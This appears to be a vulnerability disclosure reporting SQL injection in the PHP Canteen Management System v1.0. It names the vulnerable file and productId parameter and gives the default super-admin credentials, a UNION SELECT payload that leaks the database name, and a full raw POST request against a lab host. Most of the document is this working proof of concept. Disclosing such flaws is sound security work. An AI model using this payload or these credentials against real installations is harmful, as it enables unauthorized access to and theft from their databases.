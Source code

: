 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: Pengxuan Li

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/php_action/fetchSelectedfood.php

Vulnerability location: /youthappam/php_action/fetchSelectedfood.php, productId

dbname =youthappam,length=10

[+] Payload: productId=-1 union select 1,database(),3,4,5,6,7,8,9 // Leak place ---> productId

```sql
POST /youthappam/php_action/fetchSelectedfood.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

productId=-1 union select 1,database(),3,4,5,6,7,8,9
```

![image](https://user-images.githubusercontent.com/54017627/195265623-e554812b-9436-4de3-a098-d49f486148a7.png)
